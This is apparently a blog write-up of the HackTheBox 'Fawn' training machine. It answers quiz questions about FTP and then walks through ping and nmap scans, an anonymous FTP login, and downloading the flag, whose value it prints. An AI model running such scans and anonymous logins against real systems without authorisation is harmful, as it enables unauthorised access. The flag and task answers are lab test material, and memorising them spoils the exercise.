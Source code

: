 ```yaml
---
title: "HackTheBox: Fawn"
description: 
date: 2022-02-19T22:02:29+02:00
image: cover.png
math: 
license: 
hidden: false
comments: false
draft: false
categories:
    - HTB
    - Writeup
    - Very Easy
    - Linux
    - FTP
    - Account Misconfiguration
---
```

## Intro
This is another Very Easy machine from the Starting Point section on HackTheBox. As is typical, besides just getting the root flag, we will need to answer some questions.

## Tasks

### Task 1: What does the 3-letter acronym FTP stand for?
```
File Transfer Protocol
```

### Task 2: What communication model does FTP use, architecturally speaking?
Here's what the FTP architecture looks like (at a high level).

![FTP architecture (Source: educba.com)](ftp_architecture.png)

Thus, our answer would be:
```
Client-Server model
```

### Task 3: What is the name of one popular GUI FTP program?
```
Filezilla
```

### Task 4: Which port is the FTP service active on usually?
```
21 TCP
```

### Task 5: What acronym is used for the secure version of FTP?
`Secure File Transfer Protocol`
```
SFTP
```

### Task 6: What is the command we can use to test our connection to the target?
```
ping
```

Let's test out the connection:
```bash
weaponizedpeach@Akatosh:~$ ping 10.129.226.127
PING 10.129.226.127 (10.129.226.127) 56(84) bytes of data.
64 bytes from 10.129.226.127: icmp_seq=1 ttl=63 time=48.9 ms
64 bytes from 10.129.226.127: icmp_seq=2 ttl=63 time=48.7 ms
64 bytes from 10.129.226.127: icmp_seq=3 ttl=63 time=48.6 ms
^C
--- 10.129.226.127 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2004ms
rtt min/avg/max/mdev = 48.627/48.742/48.871/0.100 ms
weaponizedpeach@Akatosh:~$
```

### Task 7: From your scans, what version is FTP running on the target?
Let's run an nmap scan:

```bash
weaponizedpeach@Akatosh:~$ nmap 10.129.226.127
Starting Nmap 7.80 ( https://nmap.org ) at 2022-02-19 22:27 EET
Nmap scan report for 10.129.226.127
Host is up (0.048s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
21/tcp open  ftp

Nmap done: 1 IP address (1 host up) scanned in 1.91 seconds
weaponizedpeach@Akatosh:~$
```

Here we can see an open FTP port on 21 TCP. However, this is not enough, we also need to get the specific version of FTP used. Let's run nmap again, this time with service and version detection (`-sV`) enabled.

```bash
weaponizedpeach@Akatosh:~$ nmap -sV 10.129.226.127
Starting Nmap 7.80 ( https://nmap.org ) at 2022-02-19 22:31 EET
Nmap scan report for 10.129.226.127
Host is up (0.049s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2.55 seconds
weaponizedpeach@Akatosh:~$
```

This time we got some additional information. Thus, the answer is:
```
vsftpd 3.0.3
```

### Task 8: From your scans, what OS type is running on the target?
We can use the nmap output from the previous task to identify the answer to this one as well.
```
Unix
```

### Submit root flag
Given the fact that the box is oriented towards FTP and there is only a single open port - an FTP service, let's try to connect to it and see what happens.

```bash
weaponizedpeach@Akatosh:~$ ftp 10.129.226.127
Connected to 10.129.226.127.
220 (vsFTPd 3.0.3)
Name (10.129.226.127:weaponizedpeach):
```

We are being asked for a username. Some FTP servers allow anonymous access, maybe this is one of them, let's give it a try, if so, the password is likely blank:
```bash
Name (10.129.226.127:weaponizedpeach): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

We're in. Let's snoop around and try to snag the flag.

```bash
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
ftp> get flag.txt
local: flag.txt remote: flag.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for flag.txt (32 bytes).
226 Transfer complete.
32 bytes received in 0.00 secs (34.7996 kB/s)
ftp> exit
221 Goodbye.
weaponizedpeach@Akatosh:~$ ls
OpenVPN  flag.txt
weaponizedpeach@Akatosh:~$ cat flag.txt
035db21c881520061c53e0536e44f815
weaponizedpeach@Akatosh:~$
```

As usual, we need to provide the flag itself in the format of HTB{\_flag\_}:
```
HTB{035db21c881520061c53e0536e44f815}
```

And that's it for Fawn!